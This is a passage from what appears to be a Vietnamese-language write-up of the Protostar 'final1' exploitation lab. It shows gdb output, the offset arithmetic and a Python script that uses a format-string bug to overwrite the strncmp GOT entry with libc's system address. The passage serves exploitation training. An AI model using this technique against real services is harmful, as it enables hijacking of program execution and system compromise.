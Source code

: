 ```gdb
0x08048da2 <strncmp@plt+6>:     push   $0x160
0x08048da7 <strncmp@plt+11>:    jmp    0x8048acc
End of assembler dump.
(gdb) x/wx 0x804a1a8
0x804a1a8 <_GLOBAL_OFFSET_TABLE_+188>:  0x00000035
```

Hơn nữa, với những hệ thống không bật ASLR như trong trường hợp này(địa chỉ của libc không bị nhảy), ta có thể lấy trực tiếp địa chỉ của hàm system trong libc bằng cách:
```gdb
(gdb) x system
0xb7ecffb0 <__libc_system>:     0x890cec83
```



## tính toán offset
Ta thấy ở bên trên, GOT đang chứa địa chỉ là 35. Việc của chúng ta bây giờ là ghi đè 0xb7ecffb0 vào bên trong địa chỉ này

```py
root@protostar:/opt/protostar/bin# python
Python 2.6.6 (r266:84292, Dec 27 2010, 00:02:40)
[GCC 4.4.5] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0xffb0 - 0x00000038 + 8
65408
```

chương trình exploit của chúng ta lúc này được sửa thành:
```py
import socket
import struct
import telnetlib

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 2994))

def read_until(check):
    buffer = ''
    while check not in buffer:
        buffer += s.recv(1)
    return buffer

ip, port = s.getsockname()
hostname = ip +":"+str(port)
pad = "A" * (24-len(hostname))

STRNCMP_1 = struct.pack("I", 0x0804a1a8)
STRNCMP_2 = struct.pack("I", 0x0804a1a8+2)

username = pad  +  STRNCMP_1 + STRNCMP_2 + "%16$65408x" + "%17$n"
login = "login " + "AAAA"
print(read_until("[final1] $ "))
s.send("username "+username+"\n")
raw_input('waiting ... hit [enter]')
print(read_until("[final1] $ "))
s.send(login+ "\n" )
raw_input('waiting ... hit [enter]')
print(read_until("[final1] $ "))
```
